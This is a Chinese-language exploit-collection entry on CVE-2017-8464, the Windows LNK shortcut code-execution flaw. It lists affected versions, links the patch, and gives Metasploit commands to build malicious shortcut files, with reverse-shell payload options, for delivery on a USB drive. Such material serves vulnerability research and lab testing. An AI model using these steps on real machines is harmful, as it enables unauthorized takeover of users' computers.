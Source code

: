 ### CVE-2017-8464

#### 描述

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested |
| ------------------- | ---------------- | ------- | ------ | ------ |
| Windows 10          | x86/x64          |         |        |        |
| Windows 10          | x86/x64          | 1511    |        |        |
| Windows 10          | x86/x64          | 1607    |        |        |
| Windows 10          | x86/x64          | 1703    |        |        |
| Windows 7           | x86/x64          |         | SP1    |        |
| Windows 8.1         | x86/x64          |         |        |        |
| Windows Rt 8.1      |                  |         |        |        |
| Windows Server 2008 | x86/x64          |         | SP2    |        |
| Windows Server 2008 | x86/x64          | R2      | SP1    |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2016 |                  |         |        |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### 利用方式

测试机器Windows 7 SP1 x64，直接用msf来利用

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #要是x86使用windows/exec，还可以设置后门windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

生成文件

![CVE-2017-8464_win7_x86_msf](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-8464_win7_x86_msf.png)

运行命令把它拷贝到test目录下

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-8464_win7_x86_msf2.png)

接着把这些文件全部拷贝到U盘中，然后插上电脑即可

测试机器是虚拟机，所以需要打一个补丁**KB2533623**和装一个驱动**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，然后USB设置为3.0，Windows7的补丁放在了这里

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF图如下

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-8464_win7_x86.gif)

#### 分析文章
- https://my.oschina.net/u/4310658/blog/3695267
- https://www.anquanke.com/post/id/202705
- https://wohin.me/0dayan-quan-external-stuxnet-cve-2017-8464/
- https://blog.csdn.net/baidu_41647119/article/details/103875396
- http://www.vxjump.net/files/vuln_analysis/cve-2017-8464.txt